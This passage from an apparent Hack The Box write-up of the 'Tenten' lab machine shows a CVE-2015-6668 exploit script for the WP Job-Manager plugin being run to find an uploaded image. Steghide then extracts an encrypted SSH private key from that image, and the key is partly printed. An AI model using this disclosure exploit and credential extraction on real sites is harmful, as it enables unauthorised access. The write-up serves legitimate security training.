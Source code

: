 

It didn't find anything. Given that I was able to upload images in
addition to documents, I went in and added image extensions to the list
to check, and on re-running, it got a hit:



    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $python brute.py 
      
    CVE-2015-6668  
    Title: CV filename disclosure on Job-Manager WP Plugin  
    Author: Evangelos Mourikis  
    Blog: https://vagmour.eu  
    Plugin URL: http://www.wp-jobmanager.com  
    Versions: <=0.7.25  

    Enter a vulnerable website: http://10.10.10.10/
    Enter a file name: HackerAccessGranted
    [+] URL of CV found! http://10.10.10.10//wp-content/uploads/2017/04/HackerAccessGranted.jpg



The file is available at that URL:

![](/img/image-20200713152624679.png)

### Extract Key with Steg

Given that the box spent all this way leading me to an image, and this
is really old HTB where stuff like steg still rears its ugly head, I
downloaded the file and tried `steghide`, and with no passphrase, it
worked:



    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $steghide extract -sf HackerAccessGranted.jpg 
    Enter passphrase: 
    wrote extracted data to "id_rsa".



The file it wrote, `id_rsa` is an encrypted private key:



    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $cat id_rsa 
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,7265FC656C429769E4C1EEFC618E660C

    /HXcUBOT3JhzblH7uF9Vh7faa76XHIdr/Ch0pDnJunjdmLS/laq1kulQ3/RF/Vax
    tjTzj/V5hBEcL5GcHv3esrODlS0jhML53lAprkpawfbvwbR+XxFIJuz7zLfd/vDo
    1KuGrCrRRsipkyae5KiqlC137bmWK9aE/4c5X2yfVTOEeODdW0rAoTzGufWtThZf
    K2ny0iTGPndD7LMdm/o5O5As+ChDYFNphV1XDgfDzHgonKMC4iES7Jk8Gz20PJsm
    SdWCazF6pIEqhI4NQrnkd8kmKqzkpfWqZDz3+g6f49GYf97aM5TQgTday2oFqoXH
    WPhK3Cm0tMGqLZA01+oNuwXS0H53t9FG7GqU31wj7nAGWBpfGodGwedYde4zlOBP
    VbNulRMKOkErv/NCiGVRcK6k5Qtdbwforh+6bMjmKE6QvMXbesZtQ0gC9SJZ3lMT
    J0IY838HQZgOsSw1jDrxuPV2DUIYFR0W3kQrDVUym0BoxOwOf/MlTxvrC2wvbHqw
    AAniuEotb9oaz/Pfau3OO/DVzYkqI99VDX/YBIxd168qqZbXsM9s/aMCdVg7TJ1g
    2gxElpV7U9kxil/RNdx5UASFpvFslmOn7CTZ6N44xiatQUHyV1NgpNCyjfEMzXMo
    6FtWaVqbGStax1iMRC198Z0cRkX2VoTvTlhQw74rSPGPMEH+OSFksXp7Se/wCDMA
    pYZASVxl6oNWQK+pAj5z4WhaBSBEr8ZVmFfykuh4lo7Tsnxa9WNoWXo6X0FSOPMk
    tNpBbPPq15+M+dSZaObad9E/MnvBfaSKlvkn4epkB7n0VkO1ssLcecfxi+bWnGPm
    KowyqU6iuF28w1J9BtowgnWrUgtlqubmk0wkf+l08ig7koMyT9KfZegR7oF92xE9
    4IWDTxfLy75o1DH0Rrm0f77D4HvNC2qQ0dYHkApd1dk4blcb71Fi5WF1B3RruygF
    2GSreByXn5g915Ya82uC3O+ST5QBeY2pT8Bk2D6Ikmt6uIlLno0Skr3v9r6JT5J7
    L0UtMgdUqf+35+cA70L/wIlP0E04U0aaGpscDg059DL88dzvIhyHg4Tlfd9xWtQS
    VxMzURTwEZ43jSxX94PLlwcxzLV6FfRVAKdbi6kACsgVeULiI+yAfPjIIyV0m1kv
    5HV/bYJvVatGtmkNuMtuK7NOH8iE7kCDxCnPnPZa0nWoHDk4yd50RlzznkPna74r